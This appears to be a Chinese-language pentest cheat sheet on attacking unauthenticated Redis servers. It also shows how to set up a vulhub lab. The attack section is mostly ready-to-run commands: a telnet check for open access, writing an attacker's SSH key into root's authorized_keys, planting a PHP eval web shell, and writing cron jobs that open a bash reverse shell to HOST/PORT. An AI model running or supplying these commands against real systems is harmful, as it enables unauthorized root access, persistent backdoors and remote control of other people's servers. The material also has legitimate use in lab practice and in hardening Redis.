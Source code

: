 # 6379 Redis

## 未授权访问

```bash
HOST=; PORT=6379; # TARGET INFO
```

```bash
telnet $HOST $PORT
INFO
# 如果可以返回 refis 相关信息则代表存在未授权访问
```

## 文件写入

文件写入时首先采用写入 SSH 公钥的方式。

写入文件或计划任务可能影响目标服务器 redis 正常运行。

```bash
HOST=; PORT=6379; # TARGET HOST INFO
```

```bash
# 写入 SSH 公钥
# LOCAL
ssh-keygen -t rsa
(echo -e "\n\n"; cat ~/.ssh/id_rsa.pub; echo -e "\n\n") > /tmp/id_rsa.pub
cat /tmp/id_rsa.pub | redis-cli -h $HOST -p $PORT -x set crackit
rm /tmp/id_rsa.pub
redis-cli -h $HOST -p $PORT
# REMOTE
CONFIG SET DIR /root/.ssh/
CONFIG SET DBFILENAME "authorized_keys"
SAVE
# LOCAL
ssh -i ~/.ssh/id_rsa root@HOST
redis-cli -h $HOST -p $PORT

# 写入 WebShell
CONFIG SET DIR /var/www/html
CONFIG SET DBFILENAME exec.php
SET crackit "\n\n\n\n<?php @eval($_REQUEST['exec']);?>\n\n\n\n"
SAVE

# 写入用户级计划任务
CONFIG SET DIR /var/spool/cron
CONFIG SET DBFILENAME root
SET crackit "\n\n\n\n* * * * * bash -i >& /dev/tcp/HOST/PORT 0>&1\n\n\n\n"
SAVE

# 写入系统级计划任务
CONFIG SET DIR /etc/cron.d
CONFIG SET DBFILENAME reverse_shell
SET crackit "\n\n\n\n* * * * * root bash -i >& /dev/tcp/HOST/PORT 0>&1\n\n\n\n"
SAVE
```

## UI 工具

[Another Redis Desktop Manager](https://goanother.com/cn/)

## 环境搭建

```bash
# 进入 vulhub 漏洞环境路径
cd ~/hack/envs/vulhub/redis/4-unacc
# 启动环境
docker compose up -d
# 关闭环境
docker compose down
```

